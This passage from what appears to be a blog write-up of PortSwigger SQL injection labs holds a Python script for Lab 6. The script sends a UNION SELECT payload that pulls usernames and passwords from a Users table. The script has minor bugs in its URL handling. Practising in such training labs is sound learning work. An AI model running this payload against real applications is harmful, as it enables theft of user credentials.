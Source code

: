 ![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/sqli9.jpg)

### Lab 6 - Python Script

```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
def exploit_sqli(url,payload):
    uri="category?=Gifts"
    print("The url for request is: {url}--".format(url=url+uri+payload))
    r=requests.get(url+uri+payload+"--", verify=False, proxies=proxies)
    if r.status_code==200:
        return True
    return False

if __name__=="__main__":
    try:
        url = sys.argv[1].strip()
        payload = "'UNION SELECT username ||'-'|| password FROM Users"
    except IndexError:
        print('Usage: %s <url>' % sys.argv[0])
        print('Example: %s www.example-com' % sys.argv[0])
        sys.exit(-1)
    columns=exploit_sqli(url,payload)
    if columns:
        print("SQL Injection Successfull")
    else:
        print("Injection Failed, try again")
```
## Lab 7 - SQL injection attack, querying the database type and version on Oracle
